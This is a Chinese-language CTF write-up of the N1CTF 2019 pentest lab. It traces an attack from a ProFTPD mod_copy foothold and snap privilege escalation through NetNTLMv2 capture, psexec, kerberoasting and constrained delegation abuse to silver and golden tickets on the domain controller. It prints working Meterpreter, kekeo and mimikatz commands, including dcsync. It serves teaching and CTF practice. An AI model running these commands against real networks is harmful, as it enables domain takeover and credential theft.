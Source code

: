 # N1CTF 2019 Pentest N1ctf2019.lab WP

### 前言：
准备了一段时间的N1CTF终于告一段落了，在写wp的时候，这题很多师傅都是上的车，前面的web.n1ctf2019.lab作为入口的权限给得太高，考虑不周到，导致游戏体验极差，真的非常对不起！当然也有在认真做题的师傅，在这里表扬一下vk师傅。

###攻击路线：
![-w884](media/15649226152078/15679549205383.jpg)

### 攻击web.n1ctf2019.lab

![-w773](media/15649226152078/15679494413851.jpg)
通过端口探测之后发现跑着ProFTPD和Apache.

这里有个因为安全组的问题就开放了21，80端口所以需要ftp的主动模式（公网ip访问），然后可以得知ftp目录也是web目录。

![-w1219](media/15649226152078/15679550037646.jpg)

![-w366](media/15649226152078/15679550786889.jpg)

通过搜索可知ProFTPD 1.3.5中的mod_copy模块允许远程攻击者通过站点cpfr和site cpto命令读取和写入任意文件。

http://bugs.proftpd.org/show_bug.cgi?id=4372

### 权限提升：
https://www.cvedetails.com/cve/CVE-2019-11503/
https://github.com/initstring/dirty_sock
通过分析安装的软件,可以很容易的发现snap版本过低。
![-w210](media/15649226152078/15650198275349.jpg)


![-w552](media/15649226152078/15650107735004.jpg)

权限提升拿到root.然后通过信息收集（扫c段）可以发现内网中存在一个开放80端口的机器。

### 攻击：dev.n1ctf2019.lab

可能会有这三种方法得到dev的权限。

1.文件读取UNC netntlmv2破解

首先在web.n1ctf2019.lab中得到一个Meterpreter Session，然后使用msf在dmz的linux上转发端口，来转发SMB的流量到我们的捕获器中。

portfwd add -R -L 127.0.0.1 -l 5555 -p 445

使用msf中的auxiliary/server/capture/smb模块。
![-w856](media/15649226152078/15651630547989.jpg)

利用John the Ripper加载字典进行猜解，得到administrator明文为P4ssw0rd
![-w918](media/15649226152078/15650918312061.jpg)

2.smb login爆破administrator 密码。

3.任意文件读取log，上其他人的车。

然后添加一个路由来使用psexec模块攻击devServer.

![-w892](media/15649226152078/15679216595246.jpg)

很容易的在devServer上发现有一个域用户。然后盗取凭证，对dc.n1ctf2019.lab进行侦查。

![-w1289](media/15649226152078/15651633702329.jpg)
盗取凭证呢，你可以使用incognito，也可以进程迁移。在这里因为网络原因可能会导致迁移超时，可以大力出奇迹。
![-w372](media/15649226152078/15679463778175.jpg)

使用PowerView进行信息收集
![-w847](media/15649226152078/15651638473027.jpg)

对域进行侦查可以很容易的知道域内存在backupserver 以及一个共享的备份文件夹。

![-w521](media/15649226152078/15679520011588.jpg)


其中有DCServer和DevServer的备份，并且划分了相应权限。

![-w666](media/15649226152078/15651645109120.jpg)

### 攻击backup.n1ctf2019.lab

通过域侦查可以得知存在约束委派攻击。(服务通过S4U2Self和s4u2proxy来请求身份验证服务为任意用户生成TGS具体参考:https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

![-w878](media/15649226152078/15679219145966.jpg)

通过kerberoast 攻击得到服务账号明文，首先使用Invoke-Kerberoast得到SPN的密文，然后使用hashcat进行破解得到明文为P@ssword123

![-w993](media/15649226152078/15679466343904.jpg)

约束委派攻击：
可以使用kekeo，mimikatz或者rubeus来获取票据凭证。这里使用的kekeo来进行攻击。

kekeo:
tgt::ask /domain:n1ctf2019.lab /user:backupuser /password:P@ssword123

![-w675](media/15649226152078/15679467659265.jpg)


tgs::s4u /tgt:TGT_backupuser@n1ctf2019.lab_krbtgt~n1ctf2019.lab@n1ctf2019.lab.kirbi /user:administrator /service:cifs/backup.n1ctf2019.lab

![-w659](media/15649226152078/15679481882397.jpg)

然后使用mimikatz将票据导入内存。
kerberos::ptt 
TGS_administrator@n1ctf2019.lab_backupUser@n1ctf2019.lab.kirbi

kerberos::ptt TGS_administrator@n1ctf2019.lab_cifs~backup.n1ctf2019.lab@n1ctf2019.lab.kirbi

![-w649](media/15649226152078/15679483392050.jpg)

![-w604](media/15649226152078/15679484107077.jpg)


### 攻击dc.n1ctf2019.lab 

在backupfile中发现存在注册表备份，于是使用impacket套件的secretsdump.py

![-w839](media/15649226152078/15650221396670.jpg)
可以得到sam中的密码，只有计算机用户有效，然后可以通过Silver Ticket来获得dc的权限。

伪造一个Silver ticket需要以下信息：
* 域SID
* service
* rc4

kerberos::golden /domain:n1ctf2019.lab /sid:S-1-5-21-1962069583-682474415-2983424938 /target:dc.n1ctf2019.lab /rc4:3776b07886526b9a060a7edc8b426de1 /service:cifs /user:Nu1L /ptt

![-w653](media/15649226152078/15679480427890.jpg)


然后在桌面拿到flag.txt

![-w657](media/15649226152078/15679484480497.jpg)


然后还可以选择将Silver Ticket升级为golden ticket。

kerberos::golden /domain:n1ctf2019.lab /sid:S-1-5-21-1962069583-682474415-2983424938/target:dc.n1ctf2019.lab /rc4:3776b07886526b9a060a7edc8b426de1 /service:ldap /user:Nu1L /ptt

lsadump::dcsync /dc:dc.n1ctf2019.lab /domain:n1ctf2019.lab /user:krbtgt

然后使用kerberos::golden生成金票，拿到flag。

###后记
这是第一次尝试，虽然很多次入口被搅得爆炸，师傅们还是不离不弃的坚持做题，非常感谢！